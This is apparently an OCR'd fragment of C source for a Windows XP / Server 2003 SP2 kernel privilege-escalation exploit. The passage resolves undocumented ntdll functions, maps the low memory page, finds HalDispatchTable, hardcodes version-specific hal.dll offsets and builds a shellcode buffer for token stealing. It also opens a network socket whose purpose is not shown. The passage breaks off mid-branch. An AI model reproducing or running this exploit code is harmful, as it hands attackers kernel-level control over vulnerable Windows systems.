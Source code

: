 	
	restore_ptrs = (CHAR*)malloc(RESTOREPTRS_SIZE);
	memcpy(restore_ptrs,restore_ptrs_layout,RESTOREPTRS_SIZE);

	client = prepareAndConnectSocket();
	
	NtAllocateVirtualMemory = (_NtAllocateVirtualMemory) GetFunctionAddress("ntdll.dll","NtAllocateVirtualMemory");
	if(!NtAllocateVirtualMemory){
		fprintf(stderr, "GetProcAddress() failed");
        exit(1);
	}

	ZwDeviceIoControlFile = (_ZwDeviceIoControlFile) GetFunctionAddress("ntdll.dll","ZwDeviceIoControlFile");
	if(!ZwDeviceIoControlFile){
		fprintf(stderr, "GetProcAddress() failed");
        exit(1);
	}

	NtQueryIntervalProfile = (_NtQueryIntervalProfile) GetFunctionAddress("ntdll.dll","NtQueryIntervalProfile");
	if(!NtQueryIntervalProfile){
		fprintf(stderr, "GetProcAddress() failed");
        exit(1);
	}

	if(NtAllocateVirtualMemory(GetCurrentProcess(),(PVOID*)&baseAddr,0x0,(PSIZE_T)&regionSize,MEMRES, PAGEEXE)!=0){
		fprintf(stderr, "NtAllocateVirtualMemory() failed");
        exit(1);
	}

	WriteProcessMemory(GetCurrentProcess(),(LPVOID)0x1000,irpstuff,0x100,&written);
	VirtualProtect((LPVOID)0x00020000,0x1000,PAGEEXE,&written);

	hKernel = LoadLibraryEx(findKernelVersion(),NULL,DONT_RESOLVE_DLL_REFERENCES);
	krnlBase = (int)findSysBase(findKernelVersion());
	HalDispatchTable = (int)GetProcAddress(hKernel,"HalDispatchTable");

	HalDispatchTable -= (int)hKernel;
	HalDispatchTable += krnlBase;

	printf("[*] HalDispatchTable Address 0x%08x\n",HalDispatchTable);

	halBase = findSysBase("hal.dll");

	if(!strcmp(os,"XP")){//XP
		HaliQuerySystemInformation = (int)halBase + 0x16bba;
		HalpSetSystemInformation = (int)halBase + 0x19436;
	}else{// Win2k3 SP2
		HaliQuerySystemInformation = (int)halBase + 0x1fa1e;
		HalpSetSystemInformation = (int)halBase + 0x21c60;
	}

	printf("[*] HaliQuerySystemInformation address 0x%08x\n",HaliQuerySystemInformation);
	printf("[*] HalpSetSystemInformation address 0x%08x\n",HalpSetSystemInformation);
	
	shellcode_address_dep   = 0x0002071e;
	shellcode_address_nodep = 0x000207b8;

	memcpy(restore_ptrs+3,int2chararray(HalpSetSystemInformation),4);
	memcpy(restore_ptrs+8,int2chararray(HalDispatchTable+0x8),4);
	memcpy(restore_ptrs+13,int2chararray(HaliQuerySystemInformation),4);
	memcpy(restore_ptrs+18,int2chararray(HalDispatchTable+0x4),4);

	shellcode = (CHAR*)malloc(PADDING_SIZE+RESTOREPTRS_SIZE+TOKENSTEALING_SIZE);

	memcpy(shellcode,padding,PADDING_SIZE);
	memcpy(shellcode+PADDING_SIZE,restore_ptrs,RESTOREPTRS_SIZE);
	if(!strcmp(os,"XP")){//XP